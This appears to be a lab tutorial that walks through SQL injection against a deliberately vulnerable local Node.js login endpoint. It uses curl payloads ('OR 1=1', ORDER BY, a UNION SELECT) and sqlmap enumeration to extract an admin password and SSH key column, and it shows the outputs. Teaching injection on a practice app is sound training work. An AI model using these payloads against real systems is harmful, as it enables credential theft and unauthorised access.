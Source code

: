 # Lab Overview

In this lab, we will demonstrate the use of `sqlmap` (a popular Kali tool for SQLi)

## Requirements

This tutorial requires you have Kali Linux and an elementary understanding of SQLi

## Mission

Given an endpoint, http://localhost:3000/authenticate/{username}, as provided by [ta git repooo],
we must find a way to acquire the admin user's secret ssh key. It's stored in the database, but
we don't know where.

If at any point you are stuck and don't want to read ahead in this guide for spoilers, a braver
alternative is to read the source code of the web app and try a whitebox approach to finding
the vulnerabilities.

# How to download / run the app

Run these commands to run the server:

```
sudo apt-get install -y nodejs npm
git clone https://github.com/lilahadeline/sqlmap-poc.git & cd sqlmap-poc
npm install
node index.js
```

# Hunting for SQLi

Before we get started, let's look at how we are supposed to interact with this application
according to the instructions provided in the README:

```
$ curl http://localhost:3000/authenticate/funguy -X POST --data '&password=mypass'  
{"username":"funguy","password":"mypass"}
```

So the username (in this case `funguy`) is provided in the URL, and the password is provided
as the POST body. Great!

First, we'll do a quick manual sanity check to see if any of the parameters are injectable.
Let's try the oldest trick in the book, testing unescaped quotation. Our goal is to snatch
the SSH key of `admin`, but since we don't know what the column name for the SSH key is
in the database, for now we'll just try stealing another user's password via injection

Instead of passing our password, which is `mypass`, we'll try passing `mypass' OR 1=1--`.

```
$ curl http://localhost:3000/authenticate/funguy -X POST --data "&password=mypass' OR 1=1--"
{"username":"funguy","password":"mypass"}
```

The query works, implying that the additional SQL code executed just fine! However, it still gives
us the same user as before. Hmm, let's try reversing the order using SQL's `ORDER BY` keyword:

```
curl http://localhost:3000/authenticate/funguy -X POST --data "&password=mypass' OR 1=1 ORDER BY username ASC--" 
{"username":"admin","password":"iLuv2Code"}
```

Great! So we can get the username and password for admin. But remember, we want the SSH key! We just need to know the column name. If there was only a tool to help us...

# Mapping the DBMS with SQLMap

sqlmap is a tool provided with Kali Linux that helps us find out information about an SQL DBMS and
facilitate SQL injection. Let's try to use it to get the missing column name. First, we need to get the name of the table which contains the missing column with our coveted secret:

```
python3 sqlmap.py -u 'http://localhost:3000/authenticate/admin' --method=POST -p 'password' --data='password=ssd' --tables --level=3 --risk=3
[23:30:51] [INFO] the back-end DBMS is SQLite
web application technology: Express
back-end DBMS: SQLite
[23:30:51] [INFO] fetching tables for database: 'SQLite_masterdb'
<current>
[1 table]
+-------+
| users |
+-------+
```

Great, now that we know the table name is `users`, we can find the column names:

```
sqlmap-dev % python3 sqlmap.py -u 'http://localhost:3000/authenticate/admin' --method=POST -p 'password' --data='password=' -T users --columns --level=3 --risk=3
...
[23:37:23] [INFO] fetching columns for table 'users' 
Database: <current>
Table: users
[3 columns]
+----------+------+
| Column   | Type |
+----------+------+
| password | TEXT |
| ssh_key  | TEXT |
| username | TEXT |
+----------+------+
```

# Exploiting

Now that we know that the missing column is called `ssh_key`. Now we can use a simple `UNION` to get the ssh_key
instead of the password via the payload `' UNION SELECT username, ssh_key FROM users WHERE username='admin';--'`, like so:

```
curl http://localhost:3000/authenticate/funguy -X POST --data "&password=' UNION SELECT username, ssh_key FROM users WHERE username='admin';--'"
{"username":"admin","password":"dGhpcyBpcyB0b3RhbGx5IGxlZ2l0IGJybw=="}
